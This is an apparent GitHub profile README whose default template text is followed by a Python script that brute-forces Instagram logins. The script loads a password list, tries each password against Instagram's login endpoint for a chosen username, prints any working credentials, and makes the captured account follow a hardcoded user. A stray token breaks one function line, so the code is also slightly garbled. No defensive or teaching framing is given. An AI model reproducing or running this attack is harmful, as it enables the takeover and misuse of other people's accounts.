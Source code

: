 - 👋 Hi, I’m @Baris0718838272
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Baris0718838272/Baris0718838272 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import requests
import json
import time
import os

filename = 'pass.txt'
if os.path.isfile(filename):
	with open(filename) as f:
	    passwords = f.read().splitlines()
	    if (len(passwords) > 0):
	    	print ('%s Passwords loads successfully' % len(passwords))
else:
	print ('Please create passwords file (pass.txt)')
	exit()




def userExists(username): 07_baris_kckk
	r = requests.get('https://www.instagram.com/%s/?__a=1' % username)

	if (r.status_code == 404):
		print ('User not found')
		return False
	elif (r.status_code == 200):
		followdata = json.loads(r.text)
		fUserID = followdata['user']['id']
		return {'username':username,'id':fUserID}


def Login(username,password):
	sess = requests.Session()
	sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
	sess.headers.update({
		'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
		'x-instagram-ajax':'1',
		'X-Requested-With': 'XMLHttpRequest',
		'origin': 'https://www.instagram.com',
		'ContentType' : 'application/x-www-form-urlencoded',
		'Connection': 'keep-alive',
		'Accept': '*/*',
		'Referer': 'https://www.instagram.com',
		'authority': 'www.instagram.com',
		'Host' : 'www.instagram.com',
		'Accept-Language' : 'ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4',
		'Accept-Encoding' : 'gzip, deflate'
	})

	#first time -> to get csrftoken
	r = sess.get('https://www.instagram.com/') 
	sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})

	data = {'username':username, 'password':password}
	r = sess.post('https://www.instagram.com/accounts/login/ajax/', data=data, allow_redirects=True)
	token = r.cookies.get_dict()['csrftoken']
	sess.headers.update({'X-CSRFToken' : token})
	#parse response
	data = json.loads(r.text)
	if (data['status'] == 'fail'):
		print (data['message'])
		return False
	
	if (data['authenticated'] == True):
		return sess #if we want to keep use session
	else:
		print ('Password incorrect [%s]' % password)
		return False



def follow(sess, username):
	username = userExists(username)
	if (username == False):
		return	
	else:
		userID = username['id']
		followReq = sess.post('https://www.instagram.com/web/friendships/%s/follow/' % userID)
		print (followReq.text)


username = str(input('Please enter a username: '))
username = userExists(username)
if (username == False):
	exit()
else:
	username = username['username']



delayLoop = int(input('Please add delay between the passwords (in seconds): ')) 


for i in range(len(passwords)):
	password = passwords[i]
	sess = Login(username,password)
	if (sess):
		print ('Login success %s' % [username,password])

		#because i am cool
		follow(sess,'avr_amit')

	try:
		time.sleep(delayLoop)
	except KeyboardInterrupt:
		an = str(input('Type y/n to exit: '))
		if (an == 'y'):
			exit()
		else:
			continue
		
